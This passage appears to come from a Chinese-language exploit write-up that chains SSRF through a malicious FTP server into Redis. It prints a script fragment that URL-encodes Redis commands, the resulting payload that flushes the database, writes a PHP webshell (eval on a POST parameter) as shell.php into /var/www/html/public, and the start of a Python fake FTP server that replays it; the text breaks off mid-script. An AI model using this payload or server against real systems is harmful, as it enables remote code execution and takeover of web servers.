     if __name__=="__main__":
        for x in cmd:
            payload += urllib.quote(redis_format(x))
        print payload
    

生成的 payload 只取 `_` 后面的数据部分：

    
    
    %2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2435%0D%0A%0A%0A%3C%3Fphp%20eval%28%24_POST%5B%22whoami%22%5D%29%3B%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2420%0D%0A/var/www/html/public%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A
    

然后在攻击机上搭建一个恶意的 FTP 服务，并将上面的 Payload 中的数据替换掉下面 FTP 脚本中的 Payload 的内容：

    
    
    # -*- coding: utf-8 -*-
    # @Time    : 2021/1/13 6:56 下午
    # @Author  : tntaxin
    # @File    : ftp_redirect.py
    # @Software:
    
    import socket
    from urllib.parse import unquote
    
    # 对gopherus生成的payload进行一次urldecode
    payload = unquote("%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2435%0D%0A%0A%0A%3C%3Fphp%20eval%28%24_POST%5B%22whoami%22%5D%29%3B%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2420%0D%0A/var/www/html/public%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A")
    payload = payload.encode('utf-8')
    
    host = '0.0.0.0'
    port = 23
    sk = socket.socket()
    sk.bind((host, port))
    sk.listen(5)
    
    # ftp被动模式的passvie port,监听到1234
    sk2 = socket.socket()
    sk2.bind((host, 2333))
    sk2.listen()
    